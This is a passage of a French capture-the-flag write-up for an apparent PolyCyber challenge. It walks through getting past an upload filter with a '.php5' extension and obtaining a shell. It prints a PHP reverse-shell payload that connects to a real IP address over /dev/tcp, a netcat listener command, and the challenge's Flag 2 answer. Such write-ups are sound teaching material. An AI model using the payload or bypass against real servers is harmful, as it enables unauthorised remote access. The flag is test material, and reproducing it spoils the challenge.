 ### Étape 2 : Utilisation des informations d'identification

Maintenant que vous avez les informations d'identification de l'administrateur (Flag 1), vous pouvez vous connecter à la page "upload.php" en utilisant ces informations.

### Étape 3 : Contournement de la protection lors de l'upload

Lors de l'upload de fichiers sur la page "upload.php", vous essayez d'uploader un fichier PHP pour obtenir un reverse shell mais c'est bloqué. Pour contourner cette protection, vous allez utiliser une autre extension PHP, par exemple, ".php5".

Voici les étapes à suivre pour réussir :

1. Créez un fichier reverse shell PHP en utilisant un générateur en ligne comme https://www.revshells.com/. Entrez votre adresse IP et le port que vous souhaitez utiliser, recherchez un shell PHP approprié, copiez le contenu généré (utilisez le bouton "Copy" en bas à droite), enregistrez le fichier sous le format ".php5". Exemple de reverse shell:

```php
<?php
$cmd = 'bash -c \'(exec bash -i &>/dev/tcp/162.210.192.215/30979 0>&1) &\'';
system($cmd);
?>
```

2. Uploadez le fichier shell ".php5" sur le site du challenge. Le téléchargement réussira car il contient une extension autorisée.

3. Une fois le fichier téléchargé, vous recevrez un lien avec un nom de fichier aléatoire (/uploads/nomdufichier.php5). Vous pouvez y accéder en tapant l'adresse http://urlduchallenge/uploads/nomdufichier.php5.

4. Pour établir une connexion inverse (reverse shell), ouvrez un terminal sur une machine avec un port exposé (possible d'utiliser une service en ligne comme https://www.thc.org/segfault/) et lancez un listener. La commande suivante peut parfois suffir: nc -lvnp 9001 (utilisez le port que vous avez spécifié pour votre reverse shell). Sur https://www.thc.org/segfault/, vous pouvez simplement lancer la commande `rshell`.

5. Visitez l'URL du fichier ".php5" sur le navigateur (http://urlduchallenge/uploads/nomdufichier.php5) pour exécuter le reverse shell. Vous devriez recevoir une connexion inverse sur votre terminal.

### Étape 4 : Recherche du Flag 2

Maintenant que vous avez un accès shell sur la machine, explorez les répertoires et fichiers pour trouver le Flag 2. Vous le trouverez dans le dossier /var/www/flag.txt.

#### Flag 2
Le Flag 2 est situé dans le fichier /var/www/flag.txt. Vous pouvez l'afficher avec la commande appropriée depuis le shell (`cat flag.txt`).

Félicitations, vous avez réussi à trouver le Flag 2 !

**Flag 2 : polycyber{UPL04D_BYP4SS_SUCC3SS}**


## Write-up EN
